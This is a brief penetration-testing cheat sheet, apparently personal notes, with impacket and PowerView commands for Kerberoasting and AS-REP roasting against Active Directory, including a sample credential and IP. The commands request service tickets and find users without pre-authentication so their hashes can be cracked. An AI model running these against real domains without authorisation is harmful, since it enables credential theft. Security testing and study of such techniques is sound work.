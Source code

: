 
```
impacket-GetUserSPNs domain-name/domain-user:password -dc-ip x.x.x.x -request
```

```
impacket-GetUserSPNs xyz.com/alice:bubbles -dc-ip 192.168.111.155 -request
```

![[Pasted image 20230906222705.png]]

*Service Principal Name (SPN)*

*Ticket Granting Service (TGS)*

*Ticket Granting Ticket (TGT)*

### List vuln users using PowerView

```
Get-DomainUser -PreauthNotRequired -verbose
```

```
impacket-GetNPUsers $domain-name/ -dc-ip $ip -usersfile usernames.txt
```

